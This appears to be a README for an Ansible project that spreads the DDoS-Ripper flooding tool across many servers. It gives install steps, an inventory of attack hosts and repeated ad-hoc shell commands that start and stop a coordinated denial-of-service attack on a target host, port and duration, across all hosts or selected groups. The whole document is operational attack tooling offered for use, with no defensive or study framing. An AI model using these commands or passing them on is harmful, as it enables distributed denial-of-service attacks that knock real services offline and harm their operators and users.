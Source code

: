 **Usage:**

# 1. Install python3 and Ansible
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

# 2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:

- add your hosts as follow:
```
[all]
#Add hosts to this group
host1      ansible_host=127.0.0.1
host2      ansible_host=127.0.0.2


[all:vars]
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper


[group1]
host1

[group2]
host2
```

# 3. Run installation playbook and start/stop attack:

## You must have the same username and password or ssh key for each server

## - If you use username and password for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" -l group1,group2
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

## - If you use ssh key for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key"
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" -l group1,group2
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

